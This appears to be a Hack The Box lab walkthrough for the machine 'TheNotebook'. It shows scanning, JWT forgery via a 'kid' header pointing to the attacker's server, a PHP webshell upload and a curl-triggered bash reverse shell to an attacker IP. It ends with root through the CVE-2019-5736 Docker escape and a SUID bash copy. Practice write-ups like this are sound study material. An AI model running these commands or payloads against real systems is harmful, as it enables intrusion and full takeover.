


# [TheNotebook](https://app.hackthebox.com/machines/TheNotebook)

```bash
nmap -p-  --min-rate 5000 10.10.10.230 -Pn
```


After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80 10.10.10.230 -Pn
```


Let's access web application which I create account named as `dr4ks`.



I can see dashboard as below.


Let's do `Directory Enumeration` via `gobuster` command.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 40 -u http://10.10.10.230/
```

put image here.


While I want to access `/admin` endpoint, it says that `Forbidden`.


I came back to dashboard and look at cookies.


I take `auth` cookie which is probably `JWT Token`, let's copy and paste into [jwt.io](https://jwt.io).


One important flag is here to check `admin` users, just `user_data` which we need to inject into `admin_cap` parameter.

So I will just change `0` into `1` value for `admin_cap` parameter.

Another thing is important for `Signature` that, we need to add private key file here to open this web page on our browser.

Also from `Header` value, we need to change `kid` value to our http.server to get our private key file.


Let's start Hijacking of `JWT Token`.


First, we need to change `Header` value of `JWT Token` as because `kid` value should be our http.server.


Header Data:
```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC44OjgwODAvcHJpdi5rZXkifQ==
```

Second,we need to change value of `admin_cap` parameter.


Payload Data:
```bash
eyJ1c2VybmFtZSI6ImRyNGtzIiwiZW1haWwiOiJkcjRrc0BnbWFpbC5jb20iLCJhZG1pbl9jYXAiOjF9
```


Next, we need to generate our machine's private key file via `openssl` command.
```bash
openssl genrsa -out priv.key 2048
```


Let's do `JWT Encoding` for our data.


And, we need to open http.server to serve our `priv.key` file. So that target machine can get our `priv.key` file from our http.server.


While we paste this data into `auth` cookie, we are already can see `Admin Panel`.


I can see `File Upload` for `Admin Panel`.


Let's upload one test file into here, but we cannot see file itself.


Let's upload `php webshell`.


Without any validation, I uploaded `.php` file and it can be easily triggered by website, as a result, I can run system commands.


Let's add `reverse shell` as `URL-Encoded` into here via `curl` command.

```bash
curl --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.8/1337 0>&1'" -G -s http://10.10.10.230/a1ba6293840f8a8fb4d5dda74c98c90a.php
```


Hola, I got reverse shell from port `1337`.


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```


Let's enumerate machine and I found `home.tar.gz` file from `/var/backups` folder.


Let's download this file http.server.


While I `unzip` and extract all data from here, I found private key (id_rsa) file.


Let's use this private key (id_rsa) file by changing permissions into `600` and connect into machine.


user.txt




For `Privilege Escalation`, I just run `sudo -l` command to check privileges of this user.


I see `docker`, let's look at version of `docker`.


While I searched publicly known exploit, I find [CVE-2019-5736](https://github.com/Frichetten/CVE-2019-5736-PoC) exploit, let's use this.


I will change `payload` variable into malicious cmdlet which copied `/bin/bash` file and give `SUID` privilege to this copied `/bin/bash` file.

```bash
echo -e "cp /bin/bash /tmp/dr4ks\nchmod 4777 /tmp/dr4ks"
```


Let's build `.go` file.

```bash
go build exploit.go
```


Now, on target machine , we need to run below commands.

```bash
sudo docker exec -it webapp-dev01 bash
wget http://10.10.14.8:8080/exploit
chmod +x exploit
./exploit
```


Then, I need to open another terminal and write below commands.
```bash
sudo docker exec -it webapp-dev01 /bin/sh
```


As you see from output that our copied `/bin/bash` file called `dr4ks` is created.


Let's run this malicious binary `-p` flag ang got root shell.

